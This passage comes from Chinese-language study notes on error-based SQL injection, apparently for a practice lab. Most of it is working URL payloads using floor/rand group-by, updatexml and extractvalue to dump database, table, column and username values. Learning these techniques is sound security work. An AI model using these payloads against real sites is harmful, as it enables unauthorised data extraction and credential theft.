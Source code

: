 ```
?id=1' union select count(*),2,concat('~',(select column_name from information_schema.columns where table_name='users' limit 0,1),'~',floor(rand(0)*2)) as x from information_schema.tables group by x--+
```

**爆值**

```
#爆单列的单值
?id=1' union select count(*),2,concat('~',(select username from users limit 1,1),'~',floor(rand(0)*2)) as x from information_schema.tables group by x--+
```



##### 3.2.updatexml & extractvalue报错注入

**格式：**?id=0' and updatexml(1, concat('~',**PAYLOAD**,'~'), 1) --+

​			?id=0' and extractvalue(1,concat('~',PAYLOAD,'~')) --+



updatexml()函数与extractvalue()类似，是用于更新xml文档的函数。这里的报错是因为在payload中**不符合xml格式**，比如格式里的`~`就会导致报错

> **语法：**updatexml(目标xml文档，xml路径，更新的内容)
>
> ​			extractvalue(目标xml文档，xml路径)



**爆库名**

```
?id=0' and updatexml(1, concat('~',database(),'~'), 1) --+

?id=0' and extractvalue(1,concat('~',database(),'~')) --+
```

**爆表名**

```
?id=0' and updatexml(1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'), 1) --+

?id=0' and extractvalue(1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~')) --+
```

**爆列名**

```
?id=0' and updatexml(1, concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users'),'~'), 1) --+

?id=0' and extractvalue(1, concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users'),'~')) --+
```

**爆值**
